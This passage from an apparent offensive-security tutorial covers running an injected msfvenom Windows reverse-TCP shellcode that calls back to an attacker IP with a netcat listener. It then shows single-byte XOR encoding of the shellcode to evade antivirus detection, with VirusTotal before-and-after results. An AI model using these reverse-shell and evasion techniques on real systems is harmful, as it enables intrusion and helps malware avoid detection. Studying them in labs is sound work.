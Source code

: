 
# Execution of the shellcode -> shell on host 

Now that we have successfully built our exploit, let's execute it on our host (Windows) machine to catch a shell on our attacker (Kali Linux) machine.  
Before that, we will generate a basic msfvenom shellcode with the following command : 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.244.137 LPORT=443 -f c
# LHOST : Attacker IP 
# LPORT : Local port, here 443 
```

We will then get our shellcode (bytes-formatted) put in a separate header file (**shellcode.h**), so that the main code stays clean. 
Now, all we have to do is to setup a basic netcat listener and execute our compiled program (main.exe) on our victim machine.  
If everything went right (spoiler : it did) we will have a callback on the said listener, giving us a shell from the same victim machine !! 

![targets](/images/injected.png)

As we can see, ProcessHacker noticed the network connection that just happened, showing that we successfully injected the remote process to get our reverse shell ! 

--- 

# AV Evasion : Single-byte XOR Encryption

Now let's talk a little about this piece of code : 

```c
char key = 'S';

for (int i = 0; i < sizeof(shellcode); i++)
    {
		shellcode[i] ^= key;
    }
```

Single-byte XOR encryption is a simple encryption method where each byte of the plaintext is XORed with a single key value (in this case, the letter 'S'). The same key is applied to every byte in the plaintext, meaning decryption is simply performed by XORing the ciphertext with the same key.

When used on shellcode, single-byte XOR encryption can obfuscate its contents, making it harder for static analysis tools or antivirus software to detect malicious code. The shellcode is then decrypted at runtime before execution.

As a demonstration, I uploaded my malicious program to VirusTotal (this is acceptable in this case because the program is kept very simple; otherwise, avoid doing this as it will publicly flag your signature).
Here is a before & after encryption : 

![targets](/images/vtbefore.png)
![targets](/images/vtafter.png)
